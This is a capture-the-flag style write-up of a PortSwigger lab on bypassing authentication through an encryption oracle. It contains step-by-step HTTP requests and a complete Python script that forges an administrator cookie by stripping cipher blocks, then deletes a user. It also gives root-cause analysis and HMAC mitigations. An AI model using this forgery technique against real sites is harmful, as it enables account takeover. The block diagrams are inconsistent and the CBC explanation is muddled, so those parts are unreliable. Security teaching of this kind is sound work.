





# Lab 11: Authentication Bypass via Encryption Oracle

> **Topic**: Business Logic Vulnerabilities
> **Lab Number**: 11
> **Platform**: PortSwigger Web Security Academy

## Category
Business Logic — Encryption Oracle Abuse (Block Cipher Prefix Stripping to Forge Authentication Cookies)

## Vulnerability Summary
The application uses an encrypted `stay-logged-in` cookie for persistent authentication. A separate feature — the blog comment form — inadvertently exposes an **encryption oracle**: submitting an invalid email address causes the server to encrypt the string `"Invalid email address: <input>"` and return the ciphertext as a `notification` cookie. The same `notification` cookie is decrypted and reflected in the page on the next GET request, forming a **decryption oracle**. Together, these two oracles allow an attacker to encrypt and decrypt arbitrary data without knowing the key. By exploiting block cipher alignment properties to strip the known prefix from the ciphertext, an attacker can forge a valid `stay-logged-in` cookie for any username — including `administrator` — and gain full admin access without knowing the password.

## Attack Methodology

### Step 1: Identify the Two Oracles

**Login** with `wiener:peter` and the "Stay logged in" option enabled. Observe the `stay-logged-in` cookie set in the response:

```http
HTTP/2 302 Found
Set-Cookie: stay-logged-in=O%2fwQQxl79YdY%2fpt14EYE3WEzk9ns5vrQYDknzoaNZ7U%3d; Expires=Wed, 01 Jan 3000 01:00:00 UTC
```

Post a comment with an **invalid email address** (e.g. `INVALID_EMAIL_TEST`). The server returns:

```http
HTTP/2 302 Found
Set-Cookie: notification=8G76WEPYIbmvH9toUEDWsGWXgCCiM01txpNmcbYFd%2bDfs3J604HLmUbl%2f7KEUo36; HttpOnly
```

On the subsequent GET to `/post?postId=x`, the notification cookie is decrypted and reflected:

```
Invalid email address: INVALID_EMAIL_TEST
```

This confirms:
- **Encrypt oracle**: `POST /post/comment` with `email=<plaintext>` → ciphertext in `Set-Cookie: notification`
- **Decrypt oracle**: `GET /post?postId=x` with `Cookie: notification=<ciphertext>` → plaintext reflected in page

### Step 2: Decrypt the stay-logged-in Cookie

Send the `GET /post?postId=x` request with `notification` set to the value of the `stay-logged-in` cookie:

```http
GET /post?postId=2 HTTP/2
Host: 0a8500e104be042c8912eb4000a5001b.web-security-academy.net
Cookie: notification=O%2fwQQxl79YdY%2fpt14EYE3WEzk9ns5vrQYDknzoaNZ7U%3d; stay-logged-in=O%2fwQQxl79YdY%2fpt14EYE3WEzk9ns5vrQYDknzoaNZ7U%3d
```

The page reflects the decrypted value in the notification header:

```
wiener:1777861814877
```

This reveals the cookie format: `username:timestamp`.

### Step 3: Understand the Prefix Problem

The encrypt oracle prepends `"Invalid email address: "` (23 bytes) to any input before encrypting. To forge `administrator:1777861814877`, we need to strip this prefix from the ciphertext.

The application uses a **block cipher** (AES-CBC, 16-byte blocks). To strip the prefix cleanly, the prefix must occupy an exact number of complete blocks. 23 bytes is not a multiple of 16, so we pad the input to push the prefix into exactly 2 full blocks (32 bytes):

```
"Invalid email address: " = 23 bytes
Padding needed: 32 - 23 = 9 bytes  →  "xxxxxxxxx"
```

Padded email input:
```
xxxxxxxxxadministrator:1777861814877
```

The server encrypts:
```
[Block 1: "Invalid email a"] [Block 2: "ddress: xxxxxxxxx"] [Block 3: "administrator:17"] [Block 4: "77861814877\x05\x05\x05\x05\x05"]
```

Blocks 1 and 2 (32 bytes) correspond entirely to the junk prefix. Deleting them leaves a valid ciphertext for `administrator:1777861814877`.

### Step 4: Encrypt the Padded Payload

Send the encrypt request with the padded email:

```http
POST /post/comment HTTP/2
Host: 0a8500e104be042c8912eb4000a5001b.web-security-academy.net
Cookie: session=rD3jlERISd13eiVpSBO77noNb5wxsxWu
Content-Type: application/x-www-form-urlencoded

csrf=...&postId=2&comment=test&name=test&email=xxxxxxxxxadministrator%3a1777861814877&website=
```

Response:

```http
Set-Cookie: notification=8G76WEPYIbmvH9toUEDWsL83xSpTwPdFKM7X4XyMu%2flwZ1QgyPniFcWwHmcqnahsoYzAXZQL4rT8eXR3o5XSvw%3d%3d; HttpOnly
```

### Step 5: Strip the 32-Byte Prefix in Decoder

URL-decode → Base64-decode the notification cookie to get 64 raw bytes:

```
f06efa5843d821b9af1fdb685040d6b0  ← Block 1 (junk)
bf37c52a53c0f74528ced7e17c8cbbf9  ← Block 2 (junk)
70675420c8f9e215c5b01e672a9da86c  ← Block 3 (administrator:17...)
a18cc05d940be2b4fc797477a395d2bf  ← Block 4 (...77861814877 + padding)
```

Delete the first 32 bytes. Re-encode (Base64 → URL-encode):

```
cGdUIMj54hXFsB5nKp2obKGMwF2UC%2BK0/Hl0d6OV0r8%3D
```



### Step 6: Verify the Forged Cookie

Send the trimmed ciphertext to the decrypt oracle:

```http
GET /post?postId=2 HTTP/2
Cookie: notification=cGdUIMj54hXFsB5nKp2obKGMwF2UC%2BK0/Hl0d6OV0r8%3D
```

Page reflects:

```
administrator:1777861814877
```

No `"Invalid email address: "` prefix — the forged cookie is clean.





### Step 7: Authenticate as Administrator

Send `GET /` with **no session cookie**, using only the forged `stay-logged-in` cookie:

```http
GET / HTTP/2
Host: 0a8500e104be042c8912eb4000a5001b.web-security-academy.net
Cookie: stay-logged-in=cGdUIMj54hXFsB5nKp2obKGMwF2UC%2BK0/Hl0d6OV0r8%3D
```

Response: logged in as `administrator`. Admin panel accessible.

### Step 8: Delete carlos

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a8500e104be042c8912eb4000a5001b.web-security-academy.net
Cookie: stay-logged-in=cGdUIMj54hXFsB5nKp2obKGMwF2UC%2BK0/Hl0d6OV0r8%3D
```

Response: `HTTP/2 200` — lab solved.



## Technical Root Cause

### The Encryption Oracle (Vulnerable Code)

```python
# VULNERABLE — exposes encryption to user-controlled input
def post_comment(request):
    email = request.POST.get('email', '')
    if not is_valid_email(email):
        plaintext = f"Invalid email address: {email}"  # attacker controls suffix
        ciphertext = aes_cbc_encrypt(plaintext, SECRET_KEY)
        response.set_cookie('notification', b64encode(ciphertext))
        return redirect(f"/post?postId={post_id}")

def get_post(request):
    notification_cookie = request.COOKIES.get('notification', '')
    if notification_cookie:
        plaintext = aes_cbc_decrypt(b64decode(notification_cookie), SECRET_KEY)
        context['notification'] = plaintext  # reflected directly — decryption oracle
```

Two flaws:
1. **Encrypt oracle**: User input is embedded in a predictable plaintext and encrypted with the application's own key — the attacker can encrypt arbitrary suffixes
2. **Decrypt oracle**: The `notification` cookie is decrypted and reflected verbatim — the attacker can decrypt arbitrary ciphertexts

### Block Cipher Prefix Stripping

```
Plaintext encrypted by oracle:
┌──────────────────┬──────────────────┬──────────────────┬──────────────────┐
│  Block 1 (16B)   │  Block 2 (16B)   │  Block 3 (16B)   │  Block 4 (16B)   │
│ "Invalid email a"│ "ddress: xxxxxxxx│ xadministrator:1"│ "777861814877\x05"│
└──────────────────┴──────────────────┴──────────────────┴──────────────────┘
         ↑ delete these 32 bytes ↑                ↑ keep these 32 bytes ↑

Result after stripping:
┌──────────────────┬──────────────────┐
│  Block 3 (16B)   │  Block 4 (16B)   │
│ "administrator:1"│ "777861814877\x05"│
└──────────────────┴──────────────────┘
→ Decrypts to: administrator:1777861814877  ✅
```

In CBC mode, each block is independently decryptable (given the previous ciphertext block as IV). Deleting leading blocks does not corrupt the remaining blocks — it only corrupts the first remaining block's decryption (which becomes garbled due to the missing IV). Since we aligned the prefix to exactly 2 blocks, the first block we keep (`administrator:17...`) decrypts correctly using Block 2's ciphertext as its IV.

> **Note**: The first screenshot shows the intermediate error `"Input length must be multiple of 16 when decrypting with padded cipher"` — this is the expected error when attempting to decrypt a non-block-aligned ciphertext (before adding the 9-byte padding), confirming the block cipher is in use.



### Secure vs Vulnerable Design

```python
# VULNERABLE — encryption oracle exposed
def post_comment(request):
    email = request.POST.get('email', '')
    if not is_valid_email(email):
        error_msg = f"Invalid email address: {email}"
        notification = encrypt(error_msg, SECRET_KEY)  # ← oracle
        response.set_cookie('notification', notification)

# SECURE — no encryption of user-controlled data; use signed tokens instead
def post_comment(request):
    email = request.POST.get('email', '')
    if not is_valid_email(email):
        # Store error in server-side session, not an encrypted cookie
        request.session['notification'] = "Invalid email address"
        return redirect(...)
```

## Impact
- **Authentication Bypass**: Any account, including `administrator`, can be impersonated without knowing the password
- **Full Admin Access**: Admin panel accessible, enabling arbitrary user deletion and other privileged actions
- **Key Compromise Not Required**: The attack works entirely through the application's own encrypt/decrypt endpoints — the encryption key is never exposed

**Severity: Critical**

## Proof of Concept

```python
import requests, base64, urllib.parse, re

LAB = "https://0a8500e104be042c8912eb4000a5001b.web-security-academy.net"
s = requests.Session()

# 1. Login to get session
r = s.get(f"{LAB}/login")
csrf = re.search(r'name="csrf" value="([^"]+)"', r.text).group(1)
s.post(f"{LAB}/login", data={"csrf": csrf, "username": "wiener", "password": "peter", "stay-logged-in": "on"}, allow_redirects=False)

# 2. Decrypt stay-logged-in to get timestamp
stay = s.cookies.get("stay-logged-in")
r = s.get(f"{LAB}/post?postId=2", cookies={"notification": stay})
timestamp = re.search(r'wiener:(\d+)', r.text).group(1)

# 3. Encrypt padded payload via email oracle
r = s.get(f"{LAB}/post?postId=2")
csrf2 = re.search(r'name="csrf" value="([^"]+)"', r.text).group(1)
r = s.post(f"{LAB}/post/comment", data={
    "csrf": csrf2, "postId": "2", "comment": "x", "name": "x",
    "email": f"xxxxxxxxxadministrator:{timestamp}", "website": ""
}, allow_redirects=False)
enc = re.search(r'notification=([^;]+)', r.headers["Set-Cookie"]).group(1)

# 4. Strip first 32 bytes (2 blocks = junk prefix)
raw = base64.b64decode(urllib.parse.unquote(enc))
forged = urllib.parse.quote(base64.b64encode(raw[32:]).decode())

# 5. Authenticate as admin and delete carlos
s2 = requests.Session()
s2.get(f"{LAB}/", cookies={"stay-logged-in": forged})
s2.get(f"{LAB}/admin/delete?username=carlos")
print("Lab solved!")
```

## Key Takeaways
1. **Never encrypt user-controlled data with application secrets**: Any endpoint that encrypts attacker-supplied input and returns the ciphertext is an encryption oracle. Combined with a decryption oracle, it allows full key-equivalent access.
2. **Block cipher structure is exploitable**: In CBC mode, ciphertext blocks are independently decryptable. An attacker who can control the plaintext can align known prefixes to block boundaries and strip them from the ciphertext, forging arbitrary plaintexts.
3. **Sensitive cookies must not be forgeable**: Authentication cookies should use HMAC-signed tokens (e.g. `username:timestamp:HMAC`) rather than symmetric encryption. An HMAC cannot be forged without the key, and there is no oracle attack surface.
4. **Error messages are an oracle surface**: Reflecting user input in error messages that are then encrypted creates an oracle. Error messages should be static strings stored server-side, not derived from user input.
5. **Separate concerns**: The notification system and the authentication system share the same encryption key and mechanism. Isolating them (e.g. server-side session for notifications) eliminates the oracle entirely.

## Mitigation

### 1. Replace Encrypted Cookies with HMAC-Signed Tokens
```python
import hmac, hashlib, time

def make_stay_logged_in(username, secret):
    ts = str(int(time.time() * 1000))
    payload = f"{username}:{ts}"
    sig = hmac.new(secret.encode(), payload.encode(), hashlib.sha256).hexdigest()
    return f"{payload}:{sig}"

def verify_stay_logged_in(cookie, secret):
    parts = cookie.rsplit(":", 1)
    if len(parts) != 2:
        return None
    payload, sig = parts
    expected = hmac.new(secret.encode(), payload.encode(), hashlib.sha256).hexdigest()
    if not hmac.compare_digest(sig, expected):
        return None
    return payload.split(":")[0]  # username
```

### 2. Store Notifications Server-Side
```python
# Instead of encrypting user input into a cookie:
def post_comment(request):
    email = request.POST.get('email', '')
    if not is_valid_email(email):
        request.session['notification'] = "Invalid email address"  # static, no user data
        return redirect(f"/post?postId={post_id}")
```

### 3. Never Reflect Decrypted Cookie Values
If encrypted cookies must be used, never reflect their decrypted contents in the HTTP response. Validate the decrypted value server-side and act on it silently.

## References
- [PortSwigger — Authentication Bypass via Encryption Oracle](https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-authentication-bypass-via-encryption-oracle)
- [PortSwigger — Business Logic Vulnerabilities](https://portswigger.net/web-security/logic-flaws)
- [CWE-311: Missing Encryption of Sensitive Data](https://cwe.mitre.org/data/definitions/311.html)
- [CWE-327: Use of a Broken or Risky Cryptographic Algorithm](https://cwe.mitre.org/data/definitions/327.html)
- [OWASP — Cryptographic Storage Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cryptographic_Storage_Cheat_Sheet.html)
- [OWASP — Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)

## Tools Used
- Burp Suite Professional (Proxy, Repeater, Decoder)
- Python 3 (requests)
- Chromium

---

*Lab completed on: 2026-05-04*  
*Writeup by vibhxr*
